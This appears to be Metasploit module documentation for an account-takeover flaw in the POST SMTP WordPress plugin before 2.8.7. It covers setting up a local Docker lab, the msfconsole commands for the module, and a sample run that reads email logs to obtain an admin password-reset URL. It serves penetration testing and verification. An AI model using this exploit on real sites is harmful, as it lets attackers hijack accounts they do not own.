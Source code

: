 ## Vulnerable Application

The POST SMTP WordPress plugin prior to 2.8.7 is affected by a privilege
escalation where an unauthenticated user is able to reset the password
of an arbitrary user. This is done by requesting a password reset, then
viewing the latest email logs to find the associated password reset email.

### Install

1. Create `wp_post_smtp_acct_takeover.docker-compose.yml` with the content:
```
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
2. `docker-compose -f wp_post_smtp_acct_takeover.docker-compose.yml up`
3. `wget https://downloads.wordpress.org/plugin/post-smtp.2.8.6.zip`
4. `unzip post-smtp.2.8.6.zip`
5. `docker cp post-smtp <wordpress_container_id>:/var/www/html/wp-content/plugins`
6. Complete the setup of wordpress
7. Enable the post-smtp plugin, select "default" for the SMTP service
  1. Complete the setup using random information, it isn't validated.
8. Update permalink structure per https://github.com/rapid7/metasploit-framework/pull/18164#issuecomment-1623744244
  1. Settings -> Permalinks -> Permalink structure -> Select "Post name" -> Save Changes.


## Verification Steps

1. Install the vulnerable plugin
2. Start msfconsole
3. Do: `use auxiliary/admin/http/wp_post_smtp_acct_takeover`
4. Do: `set rhost 127.0.0.1`
5. Do: `set rport 5555`
6. Do: `set ssl false`
7. Do: `set username <username>`
8. Do: `set verbose true`
9. Do: `run`
10. Visit the output URL to reset the user's password.

## Options

### USERNAME

The username to perform a password reset against

## Scenarios

### Wordpress 6.6.2 with SMTP Post 2.8.6 on Docker

```
msf > use auxiliary/admin/http/wp_post_smtp_acct_takeover
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rport 5555
rport => 5555
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > set ssl false
ssl => false
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > set username admin
username => admin
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > set verbose true
verbose => true
msf auxiliary(admin/http/wp_post_smtp_acct_takeover) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/post-smtp/readme.txt
[*] Found version 2.8.6 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to Registering token fUefO7U12dXtb0DM on device GP3tOFuMfFErw
[+] Succesfully created token: fUefO7U12dXtb0DM
[*] Requesting logs
[*] Requesting email content from logs for ID 4
[+] Full text of log saved to: /home/mtcyr/.msf4/loot/20241029142103_default_127.0.0.1_wordpress.post_s_367186.txt
[+] Reset URL: http://127.0.0.1:5555/wp-login.php?action=rp&key=4kxMwfuvyQtcUDVrh985&login=admin&wp_lang=en_US
[*] Auxiliary module execution completed
```
